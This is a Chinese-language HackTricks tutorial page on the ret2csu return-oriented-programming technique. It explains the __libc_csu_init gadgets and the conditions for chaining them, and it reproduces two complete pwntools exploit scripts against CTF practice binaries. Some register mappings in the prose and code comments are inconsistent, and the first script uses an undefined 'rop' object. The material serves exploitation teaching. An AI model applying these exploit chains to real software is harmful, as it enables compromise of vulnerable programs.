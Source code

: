 # Ret2csu

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

##

## [https://www.scs.stanford.edu/brop/bittau-brop.pdf](https://www.scs.stanford.edu/brop/bittau-brop.pdf)基本信息

**ret2csu** 是一种黑客技术，当你试图控制一个程序但找不到通常用来操纵程序行为的 **gadgets** 时使用。

当一个程序使用某些库（如 libc）时，它有一些内置函数来管理程序的不同部分如何相互通信。在这些函数中，有一些隐藏的宝石可以作为我们缺失的 gadgets，特别是一个叫 `__libc_csu_init` 的函数。

### \_\_libc\_csu\_init 中的魔法 gadgets

在 **`__libc_csu_init`** 中，有两个指令序列（gadgets）值得强调：

1. 第一个序列让我们在几个寄存器（rbx, rbp, r12, r13, r14, r15）中设置值。这些就像我们可以存储后续要使用的数字或地址的槽。
```armasm
pop rbx;
pop rbp;
pop r12;
pop r13;
pop r14;
pop r15;
ret;
```
这个小工具允许我们通过从栈中弹出值来控制这些寄存器。

2. 第二个序列使用我们设置的值来做几件事：
* **将特定值移动到其他寄存器中**，使它们准备好作为函数中的参数使用。
* **执行对一个位置的调用**，该位置由将 r15 和 rbx 中的值相加，然后将 rbx 乘以 8 来确定。
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
```
2. 也许你不知道要写入哪个地址，并且你**需要一个 `ret` 指令**。请注意，第二个 gadget 也将**以 `ret` 结束**，但你需要满足一些**条件**才能到达它：
```armasm
mov rdx, r15;
mov rsi, r14;
mov edi, r13d;
call qword [r12 + rbx*8];
add rbx, 0x1;
cmp rbp, rbx
jnz <func>
...
ret
```
条件将是：

* `[r12 + rbx*8]` 必须指向一个存储可调用函数的地址（如果没有想法且没有 pie，你可以直接使用 `_init` 函数）：
* 如果 \_init 在 `0x400560`，使用 GEF 在内存中搜索指向它的指针，并使 `[r12 + rbx*8]` 成为指向 \_init 的指针的地址：
```bash
# Example from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
* `rbp` 和 `rbx` 必须具有相同的值以避免跳转
* 需要考虑一些省略的 pop

## RDI 和 RSI

从 ret2csu gadget 控制 **`rdi`** 和 **`rsi`** 的另一种方法是通过访问特定的偏移量：

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt="" width="283"><figcaption><p><a href="https://www.scs.stanford.edu/brop/bittau-brop.pdf">https://www.scs.stanford.edu/brop/bittau-brop.pdf</a></p></figcaption></figure>

查看此页面以获取更多信息：

{% content-ref url="brop-blind-return-oriented-programming.md" %}
[brop-blind-return-oriented-programming.md](brop-blind-return-oriented-programming.md)
{% endcontent-ref %}

## 示例

### 使用调用

想象一下，你想进行系统调用或调用像 `write()` 这样的函数，但需要在 `rdx` 和 `rsi` 寄存器中作为参数的特定值。通常，你会寻找直接设置这些寄存器的 gadgets，但你找不到任何。

这时 **ret2csu** 就派上用场了：

1. **设置寄存器**：使用第一个魔法 gadget 从栈中弹出值并放入 rbx、rbp、r12（edi）、r13（rsi）、r14（rdx）和 r15。
2. **使用第二个 gadget**：在这些寄存器设置好后，使用第二个 gadget。这使你能够将所选值移动到 `rdx` 和 `rsi`（分别来自 r14 和 r13），为函数调用准备参数。此外，通过控制 `r15` 和 `rbx`，你可以使程序调用位于你计算并放入 `[r15 + rbx*8]` 地址的函数。

你可以在这里找到一个 [**使用此技术并解释的示例**](https://ir0nstone.gitbook.io/notes/types/stack/ret2csu/exploitation)，这是它使用的最终利用：
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

POP_CHAIN = 0x00401224 # pop r12, r13, r14, r15, ret
REG_CALL = 0x00401208  # rdx, rsi, edi, call [r15 + rbx*8]
RW_LOC = 0x00404028

rop.raw('A' * 40)
rop.gets(RW_LOC)
rop.raw(POP_CHAIN)
rop.raw(0)                      # r12
rop.raw(0)                      # r13
rop.raw(0xdeadbeefcafed00d)     # r14 - popped into RDX!
rop.raw(RW_LOC)                 # r15 - holds location of called function!
rop.raw(REG_CALL)               # all the movs, plus the call

p.sendlineafter('me\n', rop.chain())
p.sendline(p64(elf.sym['win']))            # send to gets() so it's written
print(p.recvline())                        # should receive "Awesome work!"
```
{% hint style="warning" %}
注意，之前的漏洞并不是为了实现 **`RCE`**，而是为了调用一个名为 **`win`** 的函数（从标准输入调用 gets 获取 `win` 的地址并将其存储在 r15 中），并带有一个值为 `0xdeadbeefcafed00d` 的第三个参数。
{% endhint %}

### 绕过调用并到达 ret

以下漏洞是从 [**这个页面**](https://guyinatuxedo.github.io/18-ret2\_csu\_dl/ropemporium\_ret2csu/index.html) 提取的，其中使用了 **ret2csu**，但不是使用调用，而是 **绕过比较并到达 `ret`** 在调用之后：
```python
# Code from https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
# This exploit is based off of: https://www.rootnetsec.com/ropemporium-ret2csu/

from pwn import *

# Establish the target process
target = process('./ret2csu')
#gdb.attach(target, gdbscript = 'b *    0x4007b0')

# Our two __libc_csu_init rop gadgets
csuGadget0 = p64(0x40089a)
csuGadget1 = p64(0x400880)

# Address of ret2win and _init pointer
ret2win = p64(0x4007b1)
initPtr = p64(0x600e38)

# Padding from start of input to saved return address
payload = "0"*0x28

# Our first gadget, and the values to be popped from the stack

# Also a value of 0xf means it is a filler value
payload += csuGadget0
payload += p64(0x0) # RBX
payload += p64(0x1) # RBP
payload += initPtr # R12, will be called in `CALL qword ptr [R12 + RBX*0x8]`
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xdeadcafebabebeef) # R15 > soon to be RDX

# Our second gadget, and the corresponding stack values
payload += csuGadget1
payload += p64(0xf) # qword value for the ADD RSP, 0x8 adjustment
payload += p64(0xf) # RBX
payload += p64(0xf) # RBP
payload += p64(0xf) # R12
payload += p64(0xf) # R13
payload += p64(0xf) # R14
payload += p64(0xf) # R15

# Finally the address of ret2win
payload += ret2win

# Send the payload
target.sendline(payload)
target.interactive()
```
### 为什么不直接使用libc？

通常这些情况也容易受到[**ret2plt**](../common-binary-protections-and-bypasses/aslr/ret2plt.md) + [**ret2lib**](ret2lib/)的攻击，但有时你需要控制的参数比直接在libc中找到的gadgets更复杂。例如，`write()`函数需要三个参数，而**直接找到设置所有这些的gadgets可能是不可能的**。
